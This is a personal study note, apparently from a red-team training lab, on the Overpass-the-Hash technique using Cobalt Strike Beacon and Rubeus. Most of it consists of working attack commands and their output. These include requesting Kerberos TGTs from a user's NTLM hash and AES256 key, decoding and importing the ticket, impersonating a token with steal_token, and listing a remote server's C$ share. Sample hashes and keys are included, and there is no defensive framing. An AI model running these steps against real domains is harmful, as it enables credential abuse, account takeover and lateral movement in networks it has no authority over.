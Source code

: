 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Overpass the Hash]]  
___

## Description:  
### In CobaltStrike


Overpass-the-Hash (also known pass-the-key) allows authentication to take place over Kerberos rather than NTLM.  You can use the NTLM hash or AES keys for a user to request a Kerberos TGT.

Using NTLM hash

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /rc4:4ffd3eabdce2e158d923ddec72de979e /nowrap

[*] Action: Ask TGT
```

TGTs with the AES keys

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec

[*] Action: Ask TGT
```

Use `klist` to display the Kerberos tickets in the current logon session

```
beacon> run klist

Current LogonId is 0:0x1f253

Cached Tickets: (4)

#0>    Client: bfarmer @ DEV.CYBERBOTIC.IO
    Server: krbtgt/DEV.CYBERBOTIC.IO @ DEV.CYBERBOTIC.IO

#1>    Client: bfarmer @ DEV.CYBERBOTIC.IO
    Server: krbtgt/DEV.CYBERBOTIC.IO @ DEV.CYBERBOTIC.IO

```

To pass the TGT into this logon session, we can use Beacon's `kerberos_ticket_use` command. This requires that the ticket be on disk of our attacking workstation (not the target).

Powershell
```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
```

bash
```
root@kali:~# echo -en "[...ticket...]" | base64 -d > jkingTGT.kirbi
```

Import in CS
```
beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)

```


If you're in an elevated context, Rubeus can shorten some of these steps.

```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

[*] Action: Ask TGT
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3044
[+] LUID            : 0x85a103

[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256_cts_hmac_sha1 hash: a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jking'
[*] Target LUID : 8757507
[+] TGT request successful!
[*] base64(ticket.kirbi):

      [...ticket...]

[*] Target LUID: 0x85a103
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jking
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/4/2021 12:48:16 PM
  EndTime               :  3/4/2021 10:48:16 PM
  RenewTill             :  3/11/2021 12:48:16 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  Jr93ezQ6z+rc0/1h30UXaGxVkRLVsWSl9mG0nNeXuTU=

beacon> steal_token 3044
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 17:08:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/17/2021 18:28:36   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     02/17/2021 18:28:54   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     03/04/2021 10:12:52   pagefile.sys

```





___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (05:45 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
